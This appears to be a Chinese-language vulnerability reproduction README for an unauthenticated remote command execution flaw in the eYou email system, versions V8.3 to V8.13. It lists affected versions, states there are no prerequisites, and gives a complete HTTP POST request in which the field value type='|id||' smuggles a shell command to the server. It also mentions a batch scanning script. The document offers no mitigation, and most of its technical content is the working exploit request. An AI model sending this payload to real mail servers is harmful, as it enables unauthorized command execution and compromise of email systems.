


# 0x00 软件介绍
北京亿中邮信息技术有限公司（亿邮）：提供邮件系统解决方案  
官网：http://www.eyou.net/index.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: mail.xxx.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 12

type='|id||'
```
返回如下图  


# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python3 EYouMailRCE-Batch-Detect.py -h  
效果如下  


# 0x06 参考链接
[https://github.com/Tas9er/EYouMailRCE](https://github.com/Tas9er/EYouMailRCE)反编译后参考编写
